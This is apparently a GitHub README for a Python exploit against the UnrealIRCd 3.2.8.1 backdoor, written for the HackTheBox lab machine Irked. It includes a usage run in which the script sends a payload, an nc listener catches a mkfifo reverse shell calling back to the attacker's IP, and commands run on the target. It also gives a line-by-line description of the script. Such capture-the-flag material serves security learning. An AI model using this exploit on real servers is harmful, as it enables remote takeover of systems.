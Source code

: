 ## Description

Exploit an [UnrealIRCd server](https://www.unrealircd.org/). Version 3.2.8.1 contains a backdoor which can provide RCE. There's already a [Metasploit exploit module](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor) for the vulnerability, but it's a customized backdoor script.

Developed this script for [Irked from HackTheBox](https://www.hackthebox.eu/home/machines/profile/163), it should be generic to any UnrealIRCd deployment on Linux, provided that a mkfifo reverse shell works on the target.

## Usage

### exploit.py

Call the python script with four arguments to identify the target ip and port, and the callback ip and port you want to use. Then, wait and get a shell:

```
root@kali# ./unreal_3.2.8.1_exploit.py 10.10.10.117 8067 10.10.14.14 4444
[*] Connecting to 10.10.10.117:6697
[*] Sending payload
[+] Payload sent. Closing socket.
[*] Opening listener. Callback should come within a minute
bash: cannot set terminal process group (634): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

![image](https://github.com/h4md153v63n/Python_Scripts/assets/5091265/e9aca050-8c04-4fc1-afff-dd6daaaf6ca5)


### exploit2.py

![image](https://github.com/h4md153v63n/Python_Scripts/assets/5091265/87096377-57e4-49e0-81fd-35715d6e623e)



### Here’s what it does:
+ Checks for right number of args and set variables, or prints usage. [Lines 7-11]
+ Connects to the host, gets first message from host. [13-20]
+ Sends payload and closes socket. [22-25]
+ Uses subprocess to run a nc listener, waits for callback, and then lets me interact with it until ctrl-c to exit. [27-33]


## References:
- https://0xdf.gitlab.io/2019/04/27/htb-irked.html#script-it
- https://gitlab.com/0xdf/ctfscripts/-/tree/master/unreal_irc_3.2.8.1_shell.py
